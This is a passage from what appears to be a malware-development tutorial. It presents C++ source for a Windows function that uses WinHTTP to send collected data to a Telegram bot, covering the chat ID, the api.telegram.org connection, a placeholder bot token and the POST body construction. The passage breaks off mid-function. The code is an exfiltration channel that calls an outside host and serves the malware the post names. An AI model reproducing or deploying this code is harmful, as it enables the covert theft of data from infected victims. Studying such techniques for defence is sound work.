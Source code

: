 ![malware](./images/124/2024-06-17_11-54.png){width="80%"}      

As you can see, `chat ID` successfully printed.    

For sending via Telegram Bot API I just created this simple function:     

```cpp
// send data to Telegram channel using winhttp
int sendToTgBot(const char* message) {
  const char* chatId = "466662506";
  HINTERNET hSession = NULL;
  HINTERNET hConnect = NULL;

  hSession = WinHttpOpen(L"UserAgent", WINHTTP_ACCESS_TYPE_DEFAULT_PROXY, 
  WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);
  if (hSession == NULL) {
    fprintf(stderr, "WinHttpOpen. Error: %d has occurred.\n", GetLastError());
    return 1;
  }

  hConnect = WinHttpConnect(hSession, L"api.telegram.org", 
  INTERNET_DEFAULT_HTTPS_PORT, 0);
  if (hConnect == NULL) {
    fprintf(stderr, "WinHttpConnect. error: %d has occurred.\n", GetLastError());
    WinHttpCloseHandle(hSession);
  }

  HINTERNET hRequest = WinHttpOpenRequest(hConnect, L"POST", 
  L"/bot---xxxxxxxxYOUR_TOKEN_HERExxxxxx---/sendMessage", NULL, 
  WINHTTP_NO_REFERER, WINHTTP_DEFAULT_ACCEPT_TYPES, WINHTTP_FLAG_SECURE);
  if (hRequest == NULL) {
    fprintf(stderr, "WinHttpOpenRequest. error: %d has occurred.\n", GetLastError());
    WinHttpCloseHandle(hConnect);
    WinHttpCloseHandle(hSession);
  }

  // construct the request body
  char requestBody[512];
  sprintf(requestBody, "chat_id=%s&text=%s", chatId, message);

```